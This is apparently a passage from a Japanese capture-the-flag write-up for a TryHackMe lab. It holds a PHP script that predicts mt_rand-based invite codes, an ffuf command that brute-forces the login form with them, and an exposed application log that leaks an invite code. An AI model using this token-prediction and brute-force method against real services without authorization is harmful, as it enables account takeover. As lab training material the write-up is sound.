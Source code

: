 ```php
<?php
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}

$email = "thm@thm.com";

for ($i = 0; $i < 1000000; $i++) {
    $constant_value = $i;
    $seed_value = calculate_seed_value($email, $constant_value);
    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);
    print("$invite_code\n");
}
?>
```

```shell
$ php ./gen_code.php > ./code_list.txt

$ head ./code_list.txt
NjMyNzg4Mjc5
MTM5NjY2ODA1Mw==
MjA5NDUxODIy
MTI2MzAwMTI2NQ==
MTA0NjM1ODc2
NDQ3NjY1NTk0
MTExMDg4ODc0NQ==
MjA2MTYyMTQ1Nw==
MTg2ODU3NzM0Ng==
MTg0NDQ1MDY2Nw==
```

ブルートフォースを実行したが、ヒットしない。

```shell
ffuf -u http://decryptify.thm:1337/ -c -w ./code_list.txt -X POST -d 'invite_username=thm@thm.com&invite_code=FUZZ' -fr 'does not exist' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: PHPSESSID=kq91m1g7hqr69m1jpr3fcb3kfm'
```

Gobuster で、/logs ディレクトリが出ていた。ログを見る。

/logs/app.log

```
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```
